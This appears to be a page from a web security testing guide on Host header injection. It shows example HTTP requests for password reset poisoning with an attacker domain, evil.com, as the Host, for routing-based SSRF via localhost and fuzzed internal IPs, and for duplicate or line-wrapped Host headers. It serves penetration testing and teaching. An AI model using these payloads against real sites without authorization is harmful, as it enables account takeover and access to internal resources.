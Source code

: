 ### Password Reset Poisoning via Host Header Injection

When an application sends password reset links based on the "Host" header, an attacker can manipulate the header to send a reset link pointing to their controlled domain.

**Example HTTP Request:**
```
POST /reset-password HTTP/1.1
Host: evil.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

email=user@victim.com
```
In this case, the password reset link may be generated using `evil.com`, making the victim click on a malicious link controlled by the attacker.

### Exploiting Host Header Injection for SSRF

Host Header Injection can be combined with SSRF if the server uses the "Host" header to perform server-side requests.

**Example HTTP Request:**
```
GET /internal-api HTTP/1.1
Host: 127.0.0.1
```
Here, the server might use the "Host" header to make requests internally, allowing the attacker to access internal resources.

# How to Test for Host Header Injection?
___
## Supply an arbitrary Host header
If vulnerable, this will generate 200 OK response or 504 server gateway error.
```txt
GET /example HTTP/1.1
Host: google.com
```
## Accessing restricted functionality or Routing Based SSRF
#### It is common for websites to not restrict access to certain functionality for internal users only or host private sites in same server. Try to access it by localhost or brute-forcing.
```txt
Host: localhost
Host: 127.0.0.1
Host: 192.168.0.$fuzz$
```
## Send ambiguous requests
#### Inject duplicate Host headers
```txt
GET /example HTTP/1.1
Host: vulnerable-website.com
Host: google.com
```
#### Add line wrapping
```txt
GET /example HTTP/1.1
    Host: google.com
Host: vulnerable-website.com
```